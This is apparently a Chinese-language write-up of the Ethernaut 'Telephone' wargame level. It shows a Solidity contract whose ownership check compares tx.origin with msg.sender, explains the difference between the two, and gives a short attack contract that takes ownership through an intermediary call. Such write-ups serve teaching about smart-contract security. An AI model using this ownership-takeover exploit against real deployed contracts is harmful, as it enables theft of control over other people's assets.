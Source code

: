 ```yaml
---
title:ethernaut NO.4
tags:TeXt
---
```


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}

```

**主要考察对tx.orgin和msg.sender的区别的理解**

tx.orgin表示交易发起的外部账户地址。更具体地说，它表示的是最初创建整个交易序列的外部账户，而不是调用当前函数的账户；

msg.sender表示调用合约的账户；

**例如：Alice调用A合约执行B合约；对于B合约来说，msg.sender=A合约，而tx.orgin为Alice**

```solidity
contract Hack{
    constructor(address _target){
        Telephone(_target).changeOwner(msg.sender);
    }
}
```

这个为攻击合约，首先传入原合约的地址，然后利用Hack合约调用Telephone合约中的changeowner函数并将msg.sender（也就是我们）的地址作为参数传入changeowner中，对于原合约，我们就是tx.origin，而msg.sender为Hack函数



